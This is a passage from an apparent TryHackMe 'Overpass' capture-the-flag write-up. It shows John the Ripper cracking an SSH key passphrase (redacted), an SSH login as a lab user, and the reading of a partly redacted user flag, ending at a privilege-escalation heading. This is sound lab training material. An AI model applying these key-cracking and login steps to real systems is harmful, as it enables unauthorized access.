 ```highlight
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
{{REDACTED}}          (key)
```

Ive removed the password from the output but the password was cracked and I can now use that to log in. First I chmod 600 the key file so I can use it to log in.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $chmod 600 key
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $ssh -i key james@10.10.70.101
Enter passphrase for key 'key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Sep 19 10:39:34 UTC 2020

  System load:  0.0                Processes:           88
  Usage of /:   22.4% of 18.57GB   Users logged in:     0
  Memory usage: 11%                IP address for eth0: 10.10.70.101
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```

Im in! I can now grab the user.txt flag.

```highlight
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt
thm{65c1aaf0005{{REDACTED}}
james@overpass-prod:~$ 
```

### Priv Esc
